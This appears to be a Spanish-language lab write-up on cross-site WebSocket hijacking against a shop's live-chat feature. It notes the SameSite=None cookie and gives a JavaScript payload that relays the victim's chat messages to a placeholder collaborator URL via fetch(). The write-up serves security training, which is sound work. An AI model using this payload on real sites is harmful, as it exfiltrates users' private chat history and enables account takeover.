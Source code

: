 `TAREA:` Esta tienda en línea tiene una función de chat en vivo implementada mediante WebSockets.

Para resolver el laboratorio, utilice el servidor de exploits para alojar una carga útil HTML/JavaScript que utiliza un ataque de secuestro de WebSocket entre sitios para exfiltrar el historial de chat de la víctima y luego usar esto para obtener acceso a su cuenta.

iniciamos sesión y rápidamente podemos ver que tenemos una cookie de sesión y el parámetro `Same Site` esta configurado como `None`
![[Pasted image 20250729130722.png]]

si analizamos la petición podemos ver que la solicitud del mensaje se envía al servidor haciendo un llamado a recurso `/resources/js/chat.js`
![[Pasted image 20250729134949.png]]

analizamos el json `chat.js` Ese código es un script JavaScript autoejecutable que implementa la interfaz del chat en tiempo real y utiliza la función de WebSockets
![[Pasted image 20250729135359.png]]

partiendo de esta idea podemos crear nuestra conexión web socket para exfiltrar esta informacion

```python
<script> var ws = new WebSocket('wss://your-websocket-url'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>
```

![[Pasted image 20250729142914.png]]

![[Pasted image 20250729142857.png]]